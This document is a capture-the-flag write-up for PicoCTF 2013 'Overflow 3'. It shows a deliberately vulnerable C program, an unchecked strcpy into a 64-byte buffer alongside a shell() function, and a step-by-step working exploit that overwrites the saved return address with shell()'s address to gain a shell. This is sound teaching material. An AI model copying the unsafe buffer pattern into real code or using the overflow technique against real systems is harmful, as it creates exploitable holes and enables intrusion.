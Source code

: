 ## PicoCTF 2013: Overflow 3

**Category:** Binary Exploitation
**Points:** 120
**Description:**

>Stack overflows are the most basic binary exploitation technique, but they
>take a lot of skill to master. If you already know some C, these problems can
>help acquaint you with stacks and binary exploitation in general.

>Problem available on the shell machine in
>/problems/stack_overflow_3_28d8a442fb232c0c , downloadable [here](https://2013.picoctf.com/problems/overflow3-28d8a442fb232c0c) with source
>[here](https://2013.picoctf.com/problems/overflow3-28d8a442fb232c0c.c).

>If you solve the problem you will be able to read the key file by running

>cat /problems/stack_overflow_3_28d8a442fb232c0c/key
>on the PicoCTF shell machine.

>**Hint:** objdump -d is a handy tool for this sort of thing.

## Write-up
Let's look at the source code:

```C
#include <stdio.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include "dump_stack.h"

/*
 * Goal: Get the program to run this function.
 */
void shell(void) {
    execl("/bin/sh", "sh", NULL);
}

void vuln(char *str) {
    char buf[64];
    strcpy(buf, str);
    dump_stack((void **) buf, 21, (void **) &str);
}

int main(int argc, char **argv) {
    if (argc != 2) {
        printf("Usage: buffer_overflow [str]\n");
        return 1;
    }

    uid_t euid = geteuid();
    setresuid(euid, euid, euid);
    printf("shell function = %p\n", shell);
    vuln(argv[1]);
    return 0;
}
```
Well the code comment makes it fairly plain that we need to call `shell()`

But how? Well let's just put in a bunch of garbage and see what happens:
```
$ ./overflow3-28d8a442fb232c0c $(python -c 'print "A"*64')
shell function = 0x80485f8
Stack dump:
0xffe9fd00: 0xffea0849 (first argument)
0xffe9fcfc: 0x080486bc (saved eip)
0xffe9fcf8: 0xffe9fd28 (saved ebp)
0xffe9fcf4: 0xf7722938
0xffe9fcf0: 0x08048800
0xffe9fcec: 0x41414141
0xffe9fce8: 0x41414141
0xffe9fce4: 0x41414141
0xffe9fce0: 0x41414141
0xffe9fcdc: 0x41414141
0xffe9fcd8: 0x41414141
0xffe9fcd4: 0x41414141
0xffe9fcd0: 0x41414141
0xffe9fccc: 0x41414141
0xffe9fcc8: 0x41414141
0xffe9fcc4: 0x41414141
0xffe9fcc0: 0x41414141
0xffe9fcbc: 0x41414141
0xffe9fcb8: 0x41414141
0xffe9fcb4: 0x41414141
0xffe9fcb0: 0x41414141 (beginning of buffer)
$ strace ./overflow3-28d8a442fb232c0c $(python -c 'print "A"*76 +"BBBB"')
...
--- SIGSEGV {si_signo=SIGSEGV, si_code=SEGV_MAPERR, si_addr=0x42424242} ---
```
Now you'll notice that the program segfaults at 0x42424242, meaning we have
control over some part of the program. If you look at the prior stackdump,
you'll see a "saved eip." This is called a return address, and it tells the
code where to jump back to after the current function returns. In this case, it
goes back to 0x080486bc in `main()`. However, in the second run, using strace
reveals that we can overwrite that address. Maybe we can supply our own?

Let's use objdump like the hint says:
```
$ objdump -d overflow3-28d8a442fb232c0c | grep ">:"
0804837c <_init>:
080483b0 <setresuid@plt-0x10>:
080483c0 <setresuid@plt>:
080483d0 <printf@plt>:
080483e0 <geteuid@plt>:
080483f0 <strcpy@plt>:
08048400 <puts@plt>:
08048410 <__gmon_start__@plt>:
08048420 <__libc_start_main@plt>:
08048430 <putchar@plt>:
08048440 <execl@plt>:
08048450 <_start>:
08048480 <__do_global_dtors_aux>:
080484e0 <frame_dummy>:
08048504 <dump_stack>:
080485f8 <shell>:
0804861c <vuln>:
08048650 <main>:
080486d0 <__libc_csu_init>:
08048740 <__libc_csu_fini>:
08048742 <__i686.get_pc_thunk.bx>:
08048750 <__do_global_ctors_aux>:
0804877c <_fini>:
```

These are all functions in the binary, and their addresses are on the left. If
you look through them, you'll see that the `shell()` function is in there. Now
if you don't know what endianness is, I suggest you look it up. However for our
purposes, it means that the address's bytes are reversed (two hex digits). x86
is little endian, meaning all addresses in future exploits will need this.

Ex: 08 04 85 f8 becomes f8 85 04 08.

Now since we can't print all these characters, we can use a python escape
sequence to supply them. Remember the "B"s from before overwrote eip, so we
will replace those with our address!

```
$ ./overflow3-28d8a442fb232c0c $(python -c 'print "A"*76 +"\xf8\x85\x04\x08"')
shell function = 0x80485f8
Stack dump:
0xfffd4510: 0xfffd5800 (first argument)
0xfffd450c: 0x080485f8 (saved eip)
0xfffd4508: 0x41414141 (saved ebp)
0xfffd4504: 0x41414141
0xfffd4500: 0x41414141
0xfffd44fc: 0x41414141
0xfffd44f8: 0x41414141
0xfffd44f4: 0x41414141
0xfffd44f0: 0x41414141
0xfffd44ec: 0x41414141
0xfffd44e8: 0x41414141
0xfffd44e4: 0x41414141
0xfffd44e0: 0x41414141
0xfffd44dc: 0x41414141
0xfffd44d8: 0x41414141
0xfffd44d4: 0x41414141
0xfffd44d0: 0x41414141
0xfffd44cc: 0x41414141
0xfffd44c8: 0x41414141
0xfffd44c4: 0x41414141
0xfffd44c0: 0x41414141 (beginning of buffer)
$
```
pwn.

## Other write-ups and resources

* none yet
